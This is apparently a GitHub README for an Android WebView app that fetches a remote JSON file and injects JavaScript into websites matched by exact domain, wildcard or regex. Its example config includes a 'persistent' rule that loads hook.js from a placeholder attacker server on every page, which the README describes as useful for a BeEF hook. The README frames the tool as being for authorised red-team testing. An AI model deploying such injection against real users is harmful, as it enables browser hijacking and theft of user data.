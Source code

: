 # 🚀 WebView JavaScript Injector

This project is an **Android WebView app** that injects **custom JavaScript** into websites based on their **domain**, using **wildcards** and **regular expressions (regex)**. The JavaScript rules are stored in a remote JSON file.

---

## 🔹 How It Works

1. The app **downloads `app.json`** from a remote server.
2. It **extracts the domain** of the website being loaded.
3. It **checks the JSON file** for JavaScript rules matching the domain using:
   - ✅ **Exact match** (`b.com`)
   - ✅ **Wildcard match** (`*.example.com`)
   - ✅ **Regex match** (`regex:^.*\.secure\d+\.com$`)
   - ✅ **Default fallback** (if no match is found)
   - ✅ **Persistent scripts**  (optional: run on all pages if enabled useful for BeEF Hook)
4. The matching JavaScript is **injected into the WebView** using `evaluateJavascript()`.
5. When a user **navigates to another page**, the process repeats, injecting JavaScript for the new site.

---

## 📂 Example of Matching

| URL Loaded                   | Matched Rule                  | JavaScript Injected        |
|------------------------------|------------------------------|---------------------------|
| `https://api.example.com`    | `*.example.com`              | ✅ Wildcard matched       |
| `https://login.secure123.com` | `regex:^.*\.secure\d+\.com$` | ✅ Regex matched         |
| `https://b.com`              | `b.com`                      | ✅ Exact match           |
| `https://randomsite.com`     | `default`                    | ✅ Default script        |

---

## 📂 Example `app.json`

```json
{
    "url": "https://a.com",
    "websites": {
        "*.example.com": {
            "scripts": [
                "alert('Wildcard matched for example.com subdomains!');"
            ]
        },
        "regex:^.*\\.secure\\d+\\.com$": {
            "scripts": [
                "alert('Regex matched for secureX.com domains!');"
            ]
        },
        "b.com": {
            "scripts": [
                "alert('Welcome to B.com!');",
                "document.body.style.backgroundColor = 'blue';"
            ]
        }
    },
    "default": {
        "scripts": [
            "alert('No custom script for this site.');"
        ]
    },
    "persistent": {
         "scripts": [
            "var script = document.createElement('script');",
            "script.src = 'http://your-server.com/hook.js';",
            "document.head.appendChild(script);"
        ],
        "status": false
    }
}

## ⚠️ Legal & Ethical Disclaimer

🚨 This tool is developed strictly for educational and authorized security testing purposes only.

🔬 It is intended to help cybersecurity professionals, researchers, and enthusiasts understand post-exploitation, red teaming, and detection techniques in lab or controlled environments.

❌ Do NOT use this tool on any system or network without explicit permission. Unauthorized use may be illegal and unethical.

🛡 The author takes no responsibility for any misuse or damage caused by this project.

---

> Always hack responsibly. 💻🔐